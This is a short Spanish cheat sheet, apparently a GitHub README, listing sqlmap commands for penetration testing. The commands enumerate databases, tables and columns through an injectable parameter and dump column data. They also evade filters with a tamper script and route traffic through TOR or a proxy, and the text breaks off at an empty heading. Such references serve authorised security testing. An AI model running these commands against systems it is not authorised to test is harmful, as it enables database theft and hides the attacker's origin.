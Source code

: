 # Comandos básicos de la herramienta SQLMAP

#### DB
- Devuelve todas las bases de datos
```SQL
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment
```
#### Tabla
- Devuelve las tablas de una DB específica
```SQL
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables
```
#### Columnas
- Devuelve las columnas de una DB y tabla específica
```SQL
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns
```
#### Datos
- Devuelve los DATOS de una columna específica
```SQL
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
```
# Usar TOR con SQLMap 
```SQL
sqlmap -u 'http://www.example.com' --tor --tor-type=SOCK5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```
# Usar un PROXY con SQLMap 
```SQL
sqlmap -u 'http://www.example.com' --proxy='https://127.0.0.1:8080'
```
# SQLMap en una solicitud HTTP

